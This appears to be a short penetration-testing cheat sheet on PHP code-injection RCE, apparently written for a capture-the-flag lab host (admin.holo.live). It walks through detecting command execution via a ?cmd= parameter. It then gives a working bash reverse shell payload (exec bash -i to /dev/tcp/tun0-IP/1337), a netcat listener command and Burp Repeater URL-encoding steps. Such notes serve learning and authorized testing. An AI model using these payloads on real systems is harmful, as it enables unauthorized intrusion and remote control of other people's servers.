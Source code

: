 # Code Injection RCE

## Detecting RCE

PHP running on the site?

* Attempt RCE to see if PHP exec () or PHP passthru is being used to pass commands to the local system
* <mark style="color:yellow;">Simply add ?cmd=(command-here)</mark>
* <mark style="color:yellow;">This is even easier when you send the request to repeater and modify the request there</mark>

```
http://admin.holo.live/dashboard.php?cmd=id
```

Example Burp Request:

```
GET /dashboard.php?cmd=id HTTP/1.1
```

* Now, within the Response tab, utilize the search function for user data if necessary

## Exploitation

* Now that we confirmed that we have RCE, it is time to get a foothold on the target
* We need to make a reverse shell

{% embed url="https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjihNiUi6T6AhXxhYkEHQgKDvUQFnoECAQQAQ&url=https%3A%2F%2Frevshells.com%2F&usg=AOvVaw2kSgZf8n__rsePim87CfRv" %}

* Attempt the bash reverse shell first

Initiate a Netcat listener:

```
nc -lnvp 1337
```

In the Repeater tab of Burp:

```
GET /dashboard.php?cmd=bash -c 'exec bash -i &>/dev/tcp/tun0-IP/1337 <&1'
```

* Highlight the reverse shell payload and do CTRL+U to URL encode
  * <mark style="color:yellow;">Since it is a GET request, you absolutely need to URL encode!</mark>
* Send the request and see if you get a shell
